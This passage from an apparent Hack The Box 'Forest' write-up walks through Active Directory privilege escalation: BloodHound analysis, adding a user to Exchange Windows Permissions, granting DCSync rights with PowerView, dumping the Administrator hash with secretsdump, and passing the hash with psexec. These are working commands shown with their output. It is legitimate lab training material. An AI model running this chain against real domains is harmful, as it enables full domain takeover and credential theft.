objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 26093
name                  : Security Groups
whenchanged           : 9/20/2019 1:02:55 AM
objectclass           : {top, organizationalUnit}
usnchanged            : 26094
dscorepropagationdata : {1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:26 AM...}
adspath               : LDAP://OU=Security Groups,DC=htb,DC=local
distinguishedname     : OU=Security Groups,DC=htb,DC=local
ou                    : Security Groups
whencreated           : 9/20/2019 1:02:55 AM
instancetype          : 4
objectguid            : aea93c3d-457b-4b20-b75b-10ef006f0267
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local

usncreated            : 32844
name                  : Employees
whenchanged           : 9/22/2019 10:50:14 PM
objectclass           : {top, organizationalUnit}
usnchanged            : 32986
dscorepropagationdata : {1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:30 AM, 1/16/2023 4:58:26 AM...}
adspath               : LDAP://OU=Employees,DC=htb,DC=local
distinguishedname     : OU=Employees,DC=htb,DC=local
ou                    : Employees
whencreated           : 9/22/2019 9:38:36 PM
instancetype          : 4
objectguid            : e3ac1b11-3ef0-40a6-ae6b-6d5d7ebb07c4
objectcategory        : CN=Organizational-Unit,CN=Schema,CN=Configuration,DC=htb,DC=local
---
svc-alfresco is a member of 'Account Operators' group.
Group description: Members can administer domain user and group accounts

---
ACLS - GenericAll on EXCHANGE WINDOWS PERMISSIONS Group.
```

I found that I could use ```GenericALL``` on EXCHANGE WINDOWS PERMISSIONS Group, I wasn't sure how useful could that be, so I used BloodHound to try and get a clear attack path.

### BloodHound:

**#Note: I did not explain how to setup bloodhound, for it you can click on this link: [BloodHound Walkthrough](https://www.pentestpartners.com/security-blog/bloodhound-walkthrough-a-tool-for-many-tradecrafts/)** </br>
I tried quite a few queries but couldn't find a clear path, ```svc-alfresco``` is part of ```ACCOUNT OPERATORS``` group, so I tried looking it up and on the ```Node info``` tab I went to the ```Reachable High Value Targets```:  </br>


ACCOUNT OPERATORS  Group has ```GenericALL``` on EXCHANGE WINDOWS PERMISSIONS that has ```WriteDacl``` permission on HTB.LOCAL which contains Administrator user, quite complicated, I googled EXCHANGE WINDOWS PERMISSIONS Privilege Escalation to make this simple:
```
Account Operators Group:
The Account Operators group grants limited account creation privileges to a user. Members of this group can create and modify most types of accounts, including those of users, local groups, and global groups, and members can log in locally to domain controllers.

Members of the Account Operators group cannot manage the Administrator user account, the user accounts of administrators, or the Administrators, Server Operators, Account Operators, Backup Operators, or Print Operators groups. Members of this group cannot modify user rights.

A privilege escalation is possible from the **Exchange Windows permissions** (EWP) security group to compromise the entire prepared Active Directory domain. Just set the Ds-Replication-Get-Changes and Ds-Replication-Get-Changes-All extended rights on the domain object. This is enough to use a DRSUAPI replication tool ala DCSync to get all the domain secrets (Kerberos keys, hashes, etc.).
```

I can also right-click the line from ```ACCOUNT OPERATORS``` to ```EXCHANGE WINDOWS PERMISSIONS``` , click on help and see how to abuse it. </br>


```
Abuse Info:

Full control of a group allows you to directly modify group membership of the group.

There are at least two ways to execute this attack. The first and most obvious is by using the built-in net.exe binary in Windows (e.g.: net group "Domain Admins" harmj0y /add /domain). See the opsec considerations tab for why this may be a bad idea. The second, and highly recommended method, is by using the Add-DomainGroupMember function in PowerView. This function is superior to using the net.exe binary in several ways. For instance, you can supply alternate credentials, instead of needing to run a process as or logon as the user with the AddMember privilege. Additionally, you have much safer execution options than you do with spawning net.exe (see the opsec tab).

To abuse this privilege with PowerView's Add-DomainGroupMember, first import PowerView into your agent session or into a PowerShell instance at the console. You may need to authenticate to the Domain Controller as a member of ACCOUNT OPERATORS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction with Add-DomainGroupMember, first create a PSCredential object (these examples comes from the PowerView help documentation):

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

Then, use Add-DomainGroupMember, optionally specifying $Cred if you are not already running a process as ACCOUNT OPERATORS@HTB.LOCAL:

Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred

Finally, verify that the user was successfully added to the group with PowerView's Get-DomainGroupMember:

Get-DomainGroupMember -Identity 'Domain Admins'
```

Since ```svc-alfresco``` is a part of ```Windows Operators``` Group, I created a new user for that (Event though I could do it with svc-alfresco, It is easier to revert changes doing it like that).
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user tal 'Aa123456' /add
The command completed successfully.
```

Add ```tal``` to ```EXCHANGE WINDOWS PERMISSIONS``` Group:
```
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'EXCHANGE WINDOWS PERMISSIONS' tal /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group 'EXCHANGE WINDOWS PERMISSIONS'
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
tal
The command completed successfully.
```

**DCSync Attack:** </br>
In a DCSync attack, we impersonate a DC to retrieve the passwords via domain replication. </br>


```
To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.
You may need to authenticate to the Domain Controller as a member of EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL if you are not running a process as a member. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation):

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)

Then, use Add-DomainObjectAcl, optionally specifying $Cred if you are not already running a process as EXCHANGE WINDOWS PERMISSIONS@HTB.LOCAL:

Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync

Once you have granted yourself this privilege, you may use the mimikatz dcsync function to dcsync the password of arbitrary principals on the domain

lsadump::dcsync /domain:testlab.local /user:Administrator

Cleanup can be done using the Remove-DomainObjectAcl function:
Remove-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```

**Create a credential object for our user password and credential:** </br>
```
$pass = convertto-securestring 'Aa123456' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('htb\tal', $pass)
```
Run PowerView.ps1, and execute DCSync Attack: </br>
```
. .\powerview.ps1
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity tal -Rights DCSync -Verbose
```
Dump hashes with mimikatz or secretsdump: </br>
```
secretsdump.py htb.local/tal:'Aa123456'@10.10.10.161
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
Pass the hash and authenticate as Administrator user: </br>
```
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb/Administrator@10.10.10.161
```


